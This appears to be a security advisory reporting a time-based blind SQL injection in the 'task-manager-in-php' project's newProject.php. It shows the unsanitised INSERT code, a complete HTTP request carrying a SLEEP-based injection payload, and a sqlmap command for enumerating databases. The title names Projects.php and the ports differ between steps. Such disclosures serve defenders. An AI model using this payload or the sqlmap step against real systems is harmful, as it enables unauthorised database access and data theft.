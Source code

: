 # task-manager-in-php has time-based blind SQL injection vulnerability in Projects.php

## supplier 
https://code-projects.org/task-manager-in-php-with-source-code/
## Vulnerability file
newProject.php

## describe
In newProject.php, 

**Code analysis**    

```

<?php include('databaseConnect.php') ?>

<?php 
	if(isset($_POST['createProject'])){
		//validate and insert into database.
		$sql = "INSERT into project (projectName) VALUES ('".$_POST['projectName']."')";
		if ($conn->query($sql) == TRUE) 
		{
			echo "New record created successfully";
		} 
		
		else 
		{
			echo "Error creating record: " . $conn->error;
			echo "Error: " . $sql . "<br>" . $conn->error;
		}

			
		header("location:Projects.php");
		exit();
	}
 ?>
 
```
Inserting $_POST['projectName'] into Mysql without any filter. A time-based blind SQL injection can be triggered.




## POC

```
POST /newProject.php HTTP/1.1
Host: localhost:8081
Content-Length: 136
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/Projects.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

projectName=faiJ'||(SELECT 0x4778515a WHERE 7548=7548 AND (SELECT 1937 FROM (SELECT(SLEEP(5)))UGzB))||'&priority=tYsE&createProject=yAce
```

Send this request, you can see a 5 sec time delay triggered by the time-based injection

## Exploit

To obtain the dataset name
```
python3 sqlmap.py -u "http://localhost:8080/Projects.php" --forms --dbs
```

use sqlmap to continue your attack.

**Result**

![image-20241126221600209](https://github.com/LamentXU123/cve/blob/main/assest/SQL_injection1.png)
